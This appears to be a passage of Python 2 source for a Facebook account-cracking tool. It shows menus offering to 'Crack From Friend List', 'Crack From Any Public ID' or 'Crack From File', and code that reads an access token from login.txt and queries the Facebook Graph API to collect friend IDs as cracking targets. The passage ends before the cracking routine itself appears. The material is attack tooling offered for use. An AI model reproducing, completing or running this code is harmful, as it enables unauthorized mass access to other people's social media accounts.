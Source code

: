 		print "\033[1;96m \x1b[1;91mFill in correctly"
		pilih()
	elif unikers =="1":
		super()
	elif unikers =="0":
		jalan('Token Removed')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\033[1;96m \x1b[1;91mFill in correctly"
		pilih()
def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;96m \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print 42*"\033[1;96m="
	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Crack From Friend List"
	print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Crack From Any Public ID"
	print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;93m Crack From File"
	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Back"
	pilih_super()
def pilih_super():
	peak = raw_input("\n\033[1;97m >>> \033[1;97m")
	if peak =="":
		print "\033[1;96m \x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		jalan('\033[1;96m \033[1;93mGetting ID \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		idt = raw_input("\033[1;96m \033[1;93mEnter ID \033[1;91m: \033[1;97m")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mName\033[1;91m :\033[1;97m "+op["name"]
		except KeyError:
			print"\033[1;96m \x1b[1;91mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
			super()
		jalan('\033[1;96m \033[1;93mGetting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="3":
		os.system('clear')
		print logo
